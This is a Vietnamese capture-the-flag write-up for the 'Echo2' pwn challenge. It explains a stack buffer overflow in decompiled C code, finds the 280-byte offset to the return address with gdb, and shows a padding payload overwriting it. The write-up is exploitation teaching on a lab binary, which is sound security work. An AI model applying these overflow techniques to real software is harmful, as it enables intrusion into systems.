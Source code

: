 # Echo2

## Source code

```c
int echo()
{
  char ptr[264]; // [rsp+0h] [rbp-110h] BYREF
  int v2[2]; // [rsp+108h] [rbp-8h] BYREF

  puts("Welcome to Echo2");
  v2[1] = __isoc99_scanf("%d", v2);
  fread(ptr, 1uLL, v2[0], stdin);
  return printf("Echo2: %s\n", ptr)
  }

  int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  echo();
  puts("Goodbye from Echo2");
  return 0;
}
```
Chall này có code khá ngắn nhưng mà độ khoai thì tỉ lệ thuận với độ ngắn =)) Đi qua một chút về chương trình: đầu tiên ta có hàm main chỉ có mục đích là gọi hàm echo. Hàm echo sẽ khởi tạo biến ptr với độ lớn 264 byte và một mảng int v2 gồm 2 phần tử. Sau đó sẽ cho mình nhập một số vào v2[0] thông qua hàm scanf (hàm scanf trả về số lượng đối số được gán thành công) rồi gán vào v2[1] (trường hợp này sẽ là 1). Rồi gọi tới hàm fread đọc v[0] phần tử với mỗi phần tử có độ lớn là 1 byte và ghi vào ptr. Đây rõ ràng là bof bug, vì cho phép nhập số lượng byte tùy ý trong khi ptr chứa nó chỉ cố định ở 264 byte, nếu ta khai báo v2[0] nhiều hơn thì chắc chắn sẽ tràn rồi =))

Chạy thử và nhìn vào stack ta sẽ thấy retAddr đang nằm trong này, mình sẽ thử tính toán offset để xem thử có thể overwrite rip hay không.

```java
0x00007fffffffdef0│+0x0000: 0x000000000000740a ("\nt"?)  ← $rsp
...

0x00007fffffffe000│+0x0110: 0x00007fffffffe010  →  0x0000000000000001    ← $rbp
0x00007fffffffe008│+0x0118: 0x00005555555552b3  →  <main+108> lea rax, [rip+0xd69]        # 0x555555556023
gef➤  p/d 0x00007fffffffe008 - 0x00007fffffffdef0
$1 = 280
```
Mình sẽ gửi payload

```python
payload = b'A'*280
payload += b'BBBBBBBB'
```
```java
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffd3934d348│+0x0000: 0x4242424242424241   ← $rsp
0x00007ffd3934d350│+0x0008: 0x0000000000000001
0x00007ffd3934d358│+0x0010: 0x00007fc661fa1d90  →   mov edi, eax
0x00007ffd3934d360│+0x0018: 0x0000000000000000
0x00007ffd3934d368│+0x0020: 0x00005578da42f247  →  <main+0> endbr64
0x00007ffd3934d370│+0x0028: 0x000000013934d450
0x00007ffd3934d378│+0x0030: 0x00007ffd3934d468  →  0x00007ffd3934e3b0  →  "/mnt/c/ctf/wctf/echo2/challenge_patched"
```